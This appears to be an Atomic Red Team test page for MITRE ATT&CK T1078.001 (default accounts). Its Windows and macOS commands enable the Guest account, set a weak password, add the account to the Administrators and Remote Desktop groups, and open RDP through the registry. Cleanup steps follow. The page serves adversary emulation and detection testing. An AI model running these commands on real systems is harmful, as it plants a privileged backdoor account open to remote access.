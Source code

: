 ```yaml
---
tags: [T1078_001, atomic_test]
filename: "[[T1078.001 - Valid Accounts- Default Accounts]]"
---
```

# T1078.001 - Valid Accounts: Default Accounts

## Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group,
and desktop will allow multiple RDP connections.

**Supported Platforms:** Windows


**auto_generated_guid:** 99747561-ed8d-47f2-9c91-1e5fde1ed6e0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | string | guest|
| guest_password | Specify the guest password | string | Password123!|
| local_admin_group | Specify the admin localgroup name | string | Administrators|
| remote_desktop_users_group_name | Specify the remote desktop users group name | string | Remote Desktop Users|
| remove_rdp_access_during_cleanup | Set to 1 if you want the cleanup to remove RDP access to machine | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
net user #{guest_user} #{guest_password}
net localgroup #{local_admin_group} #{guest_user} /add
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no >nul 2>&1
net localgroup #{local_admin_group} #{guest_user} /delete >nul 2>&1
net localgroup "#{remote_desktop_users_group_name}" #{guest_user} /delete >nul 2>&1
if #{remove_rdp_access_during_cleanup} NEQ 1 (echo Note: set remove_rdp_access_during_cleanup input argument to disable RDP access during cleanup)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f >nul 2>&1)
if #{remove_rdp_access_during_cleanup} EQU 1 (reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #2 - Activate Guest Account
The Adversaries can activate the default Guest user. The guest account is inactivated by default

**Supported Platforms:** Windows


**auto_generated_guid:** aa6cb8c4-b582-4f8e-b677-37733914abda





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| guest_user | Specify the guest account | string | guest|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user #{guest_user} /active:yes
```

#### Cleanup Commands:
```cmd
net user #{guest_user} /active:no
```





<br/>
<br/>

## Atomic Test #3 - Enable Guest Account on macOS
This test enables the guest account on macOS using sysadminctl utility.

**Supported Platforms:** macOS


**auto_generated_guid:** 0315bdff-4178-47e9-81e4-f31a6d23f7e4






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sudo sysadminctl -guestAccount on
```

#### Cleanup Commands:
```cmd
sudo sysadminctl -guestAccount off
```





<br/>
